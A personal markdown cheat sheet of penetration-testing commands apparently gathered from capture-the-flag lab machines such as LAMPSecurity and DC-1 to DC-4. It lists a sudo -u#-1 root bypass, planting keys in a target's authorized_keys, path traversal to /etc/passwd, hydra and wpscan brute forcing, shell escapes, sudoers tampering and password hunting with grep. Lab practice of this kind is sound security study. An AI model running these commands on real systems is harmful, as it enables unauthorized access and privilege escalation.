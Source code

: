 # interesting commands

```
echo LinEnum.sh | base64 |xclip -selection clipboard
grep -R password file_name
grep password . -B1 : get also the element before.
grep passwd /var/log/auth.log : permet de savoir la date de changement des mots de pass

```
if in the target system there is .ssh folder,I can generate my pub,priv key with **keygen -f name** and copy my public key and paste it inside .ssh (authorized_keys) ====>>> then I can connect with my private key: **ssh -i privkey user@targetip**.

```
scp -i privatekey user@targetip:/home/user.txt . : transfert user.txt to my local directory
```
## sudo abusing
```
vi visudo : to open the file listed with sudo -l
if in the file there is: user  ALL=(ALL,!root) ALL
I can run any commande with root priviledge like this: sudo -u#-1 /bin/bash  => BOOM,root access
ALso: user  ALL=(ALL,!abdo) ALL, I can have root access: sudo -u#-1 /bin/bash
bug fixed in 1.8.28  => get your current version $ sudo -V
```
#### LAMPSecurity-4
what I had learn from this machine is:
```
authenticity with private key with ssh : copy my public key to .ssh/authorized_key 
id => cat /etc/group, find / -group grp_name -type f 2>/dev/null
```
#### LAMPSecurity-5
what I had learn from this machine is:
```
smbclient --list //10.0.4.13/ -U "" : list the shared folders
smbclient //10.0.4.13/folder/ -U "" : get in 
grep -Ri password /home/*   : 
searchsploit linux kernel 2.6 : deux chiffre
ls /etc | grep release : know the distribution of the OS
https://10.0.4.13/?page=/../../../etc/passwd%00
hydra -L users -P /usr/share/wordlists/rockyou.txt 10.0.4.13 ssh -V
```
#### DC-1
what I had learn from this machine is:
```
find / -exec /bin/sh \;
```
#### DC-2
what I had learn from this machine is:
```
./wpscan --url http://dc-2/
./wpscan --url http://dc-2/ --enumerate : enumerate users
./wpscan --url http://dc-2/ --usernames file -w wordlist : brute force wp-login.php authenticity
ssh -p- dc-2 : check all ports
ssh -p 7744 tom@dc-2
how to bypass rbash shell : vi,echo os.system('/bin/bash') => https://sushant747.gitbooks.io/total-oscp-guide/escaping_restricted_shell.html
```
this one is soo interesting: https://sushant747.gitbooks.io/total-oscp-guide/vim.html

#### DC-3
what I had learn from this machine is:
```
locate -r .nse$ | grep joomla : look nmap script appropriate to my need
searchsploit linux kernel 4.4 : copier and paste sur google that may have repository in github.
```
#### DC-4
what I had learn from this machine is:
```
requests.post(url).status_code
brute force with burp suite with a wordlist <1000 words
echo "user ALL=(ALL) ALL" | sudo tee /etc/sudoers : tee priviledge escalation
```
#### JIS-CTF01
what I had learn from this machine is:
```
grep -rli 'technawi' --exclude-dir=/proc . 2>/dev/null
```
